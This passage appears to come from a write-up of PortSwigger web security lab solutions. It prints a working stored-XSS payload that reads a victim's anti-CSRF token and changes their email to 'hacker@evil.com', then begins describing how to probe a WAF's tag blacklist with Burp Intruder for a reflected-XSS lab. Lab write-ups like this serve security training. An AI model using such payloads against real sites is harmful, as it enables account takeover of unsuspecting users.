 In this lab we see how we can leverage a **stored XSS** to perform a **CSRF** attack on a victim. We are targetting the `/change-email` functionnality to forcefully change the victim's e-mail address to something under our control.

The web application uses anti-CSRF tokens to prevent such kinds of attacks, but we can extract it by leveraging a stored XSS located in the blog comments.

1) Victim requests the page containing the anti-CSRF token we want to extract (`/my-account`). The browser will automatically pass-on the user's cookies (`allowCredentials=true`)

2) A second request is sent to modify the email address which will append both the session cookies and the `csrf` token extracted in step 1)

**Solution**

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open("get", "/my-account", true);
req.send();
function handleResponse() {
	var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
	var changeReq = new XMLHttpRequest();
	changeReq.open("post", "/my-account/change-email", true);
	changeReq.send("csrf="+token+"&email=hacker@evil.com");
};
</script>
```

### Lab 13 - Reflected XSS into HTML context with most tags and attributes blocked

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked

The user input in search bar is reflected in the page but there is a WAF protection the application against common XSS payloads.

```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-XSS-Protection: 0
Connection: close
Content-Length: 20

"Tag is not allowed"
```

We use Burp Intruder to check against a pre-compiled list of HTML tags to see what is blacklisted:

`GET /?search=<§§>` in Intruder

`<body(...)>` seems to pass the blacklist and is a known XSS vector

```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-XSS-Protection: 0
Connection: close
Content-Length: 26

"Attribute is not allowed"
```
